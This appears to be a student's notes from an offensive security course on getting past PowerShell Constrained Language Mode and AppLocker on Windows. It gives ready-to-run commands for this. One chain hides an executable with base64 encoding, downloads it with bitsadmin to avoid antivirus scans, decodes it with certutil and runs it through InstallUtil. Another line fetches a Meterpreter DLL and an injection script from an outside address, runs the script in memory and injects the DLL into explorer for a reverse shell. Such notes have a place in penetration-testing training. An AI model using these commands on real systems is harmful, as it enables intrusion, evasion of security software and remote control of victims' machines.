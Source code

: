In summary, while `InstallUtil.exe` is a useful utility for legitimate administrative tasks, it can be exploited by attackers to execute malicious code, bypass security controls, and maintain persistence. Proper monitoring, logging, and security configurations are essential to detect and mitigate such abuses.

#### CLM Bypass Process

- Using Bypass.exe as developed in the course material
- *Issues:*
	- have to download the exe
	- ensure the exe is not flagged by AV/EDR
- Bypass AV obfuscate the exe during download by base64 encoding it either on a separate Windows machine or Linux (might need to pipe to iconv if on Linux)
```cmd
certutil -encode C:\<path to exe> <filename>.txt
```
- Powershell command to encode, but certutil will make the exe look more like a security certificate
```powershell
[Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\<path to exe>")) > C:<path to text ouput file>
```
- To transfer the encoded exe to the victim machine, one can use `bitsadmin` rather than `certutil` which will trigger an AV scan
```cmd
bitsadmin /Transfer myJob http://<ip>/file.txt C:<path to save encoded file>
```
- Now decode the encoded  file
```cmd
certutil -decode encoded.txt Bypass.exe
```
- Then run
```cmd
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U Bypass.exe
```
- As a one-liner:
```cmd 
bitsadmin /Transfer myJob http://<ip>/file.txt C:<path to save encoded file> &&certutil -decode encoded.txt Bypass.exe && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U Bypass.exe
```

### 8.3.4. Reflective Injection Returns

- using a 64-bit Meterpreter dll and the `Invoke-ReflectivePEInjection.ps1` script to obtain a reverse shell and bypass Applocker DLL rules
```cmd
String cmd = "$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/met.dll');(New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/Invoke-ReflectivePEInjection.ps1') | IEX; $procid = (Get-Process -Name explorer).Id; Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid";
```

## 8.4. Bypassing AppLocker with C\#
